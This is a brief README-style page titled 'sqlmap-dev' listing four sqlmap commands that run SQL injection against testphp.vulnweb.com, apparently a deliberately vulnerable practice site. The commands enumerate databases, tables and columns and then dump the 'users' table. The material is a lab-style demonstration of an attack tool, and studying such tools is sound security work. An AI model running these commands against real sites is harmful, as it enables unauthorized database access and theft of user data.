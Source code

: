 # sqlmap-dev

``` python sqlmap.py -u http://testphp.vulnweb.com/artists.php\?artist\=1 --dbs ```

``` python sqlmap.py -u http://testphp.vulnweb.com/artists.php\?artist\=1 -D acuart --tables ```

``` python sqlmap.py -u http://testphp.vulnweb.com/artists.php\?artist\=1 -D acuart -T users --columns ```

``` python sqlmap.py -u http://testphp.vulnweb.com/artists.php\?artist\=1 -D acuart -T users -C uname --dump-all ```
